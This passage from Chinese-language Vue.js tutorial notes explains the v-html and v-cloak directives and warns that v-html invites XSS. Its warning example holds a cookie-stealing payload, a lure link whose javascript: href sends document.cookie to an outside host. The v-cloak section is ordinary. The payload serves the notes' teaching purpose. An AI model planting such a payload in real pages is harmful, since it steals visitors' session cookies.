 3.严重注意：v-html有安全性问题！！！！

* 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
* 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

![image-20220629121130193](./images/7c1c82f65d6431c7332ea00ece8fb6f3a2e8ef9e.png)

### 1.3v-cloak 指令

**v-cloak指令（没有值）：**

* 本质是一个特殊属性，`Vue`实例创建完毕并接管容器后，会删掉`v-cloak`属性。
* 使用`css`配合`v-cloak`可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<style>
    [v-cloak]{
        display:none;
    }
</style>
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```

